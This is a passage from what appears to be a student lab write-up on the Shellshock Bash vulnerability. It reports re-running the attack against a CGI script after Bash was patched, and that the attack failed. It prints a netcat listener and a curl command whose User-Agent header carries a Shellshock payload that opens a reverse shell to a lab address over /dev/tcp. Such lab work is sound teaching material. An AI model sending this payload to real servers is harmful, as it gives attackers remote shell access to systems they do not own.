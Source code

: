 After that, we re-launched the attack by the http server. We opened two terminals again, and used the commands below: 
```shell
# In the terminal one
$ nc -l 9090 -v
# In the terminal two
$ curl http://10.0.2.6/cgi-bin/myprog.cgi -v -A \
"() { :; }; echo Content_type: text/plain;echo; \
/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1"
```
The image below shows their output. The `curl` did not work as expect under the patched `Bash v2.4`, which correctly handled all environmental variables. 
![](/assets/images/media/16326883206491/16327703950349.jpg)
